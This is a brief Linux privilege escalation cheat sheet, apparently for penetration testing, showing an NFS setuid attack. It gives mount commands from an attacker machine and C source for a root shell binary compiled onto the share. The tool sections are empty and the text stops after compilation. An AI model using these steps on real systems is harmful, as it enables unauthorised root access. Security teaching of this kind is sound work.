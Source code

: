 # Linux Privilege Escalation
This cheat sheet covers a flow chart methodology to test privilege escalation for Linux systems.
## Tools and Scans
We can use simple scripts to do a lot of leg work for us when trying to identify a privilege escalation vulnerability.
### LinuxPrivCheck.py

### LinEnum.sh

## Mounted Filesystems with SetUID
Is there perhaps a mounted NFS share that we can mount remotely? Maybe one with the mount options of setuid 0? 
```
root@attacker-machine:~# mkdir /mnt/nfs
root@attacker-machine:~# mount -t nfs (TARGET IP ADDRESS)/path/to/nfs /mnt/nfs -o nolock
```
Then, compile a binary that spawns a shell, such as,
```
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
int main(void){
 setuid(0);
 setgid(0);
 system("/bin/bash");
 return 0;
}
```
Compile it so that the binary is on the mounted NFS share and run it,
```
root@attacker-machine:/mnt/nfs:# gcc execute.c -m32 -o execute
```
